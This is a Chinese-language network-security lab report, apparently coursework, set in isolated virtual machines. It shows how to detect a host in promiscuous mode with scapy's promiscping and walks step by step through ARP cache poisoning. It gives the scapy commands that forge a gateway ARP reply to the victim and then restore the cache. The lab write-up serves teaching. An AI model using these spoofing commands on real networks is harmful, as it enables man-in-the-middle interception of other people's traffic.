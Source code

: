 # 第四章网络监听-实验
## 实验环境：
- attacker-kali: 08:00:27:50:3e:24/172.16.222.106/eth2  
- victim-debian: 08:00:27:88:02:45/172.16.222.147/enp0s3   
- gateway-debian:  08:00:27:2e:6a:ca/172.16.222.1/enp0s10  

## 实验一：检测局域网中的异常终端
### 实验过程
- 先将attacker-kali和victim-debian及gateway-debian放在同一局域网当中，
增加attacker-kali网卡intnet2，分配到172.16.222.106
- 查看victim-debian的enp0s3网卡状态：
```
ip link show enp0s3
```
- attacker-kali打开scapy，并promiscping victim-debian
```
sudo scapy
pkt = promiscping("172.16.222.147")
```
- 打开victim-debian enp0s3的promiscous mode
```
su
ip link set enp0s3 promisc on 
```
- attacker-kali 再次promiscping victim-debian
- 关闭victim-debian enp0s3的promiscous mode
```
ip link set enp0s3 promisc off
```
### 结果性证明
- 开关victim-debian的混杂模式
![](chapter4-img/victim-debian-set-promisc-on-off.PNG)
- 观察两次命令输出结果的差异：开启混杂模式的有了回应
![](chapter4-img/attacker-kali-promiscping-debian.png)



## 实验二：手工单步“毒化”目标主机的 ARP 缓存
### 实验过程+结果性证明
- 获取当前局域网的gateway-debian, attacker-kali和victim-debian MAC 地址
```
ip a
```
-  attacker-kali scapy构造一个 ARP 请求
```
arpbroadcast = Ether(dst="08:00:27:2e:6a:ca")/ARP(op=1, pdst="172.16.222.1")
```

-  查看构造好的 ARP 请求报文详情
```
arpbroadcast.show()
```

-  发送这个 ARP 广播请求
```
recved = srp(arpbroadcast, timeout=2)
```

- 网关 MAC 地址如下
```
gw_mac = recved[0][0][1].hwsrc
gw_mac
```
- 伪造gateway-debian的 ARP 响应包，准备发送给victim-debian 172.16.222.147，
ARP 响应的目的 MAC 地址设置为attacker-kali的 MAC 地址
```
arpspoofed=ARP(op=2, psrc="172.16.222.1", pdst="172.16.222.147", hwdst="08:00:27:50:3e:24")
```
- 发送上述伪造的 ARP 响应数据包到受害者主机
```
sendp(arpspoofed)
```

- 在victim-debian上查看 ARP 缓存，查看gateway-debian的 MAC 地址是否被替换为attacker-kali的 MAC 地址
```
ip neigh
```
![](chapter4-img/victim-debian-check-gw-mac.PNG)

- 恢复victim-debian缓存
```
ping 172.16.222.1
ip neigh
```
![](chapter4-img/victim-restore-arp.PNG)

- 伪装网关给受害者发送 ARP 响应
```
restorepkt1 = ARP(op=2, psrc="172.16.222.1", hwsrc="08:00:27:2e:6a:ca", pdst="172.16.222.147", hwdst="08:00:27:88:02:45")
sendp(restorepkt1, count=100, inter=0.2)
```
- 伪装受害者给网关发送 ARP 响应
```
restorepkt2 = ARP(op=2, pdst="172.16.222.1", hwdst="08:00:27:2e:6a:ca", psrc="172.16.222.147", hwsrc="08:00:27:88:02:45")
sendp(restorepkt2, count=100, inter=0.2)
```
![](chapter4-img/fake-succeed.PNG)
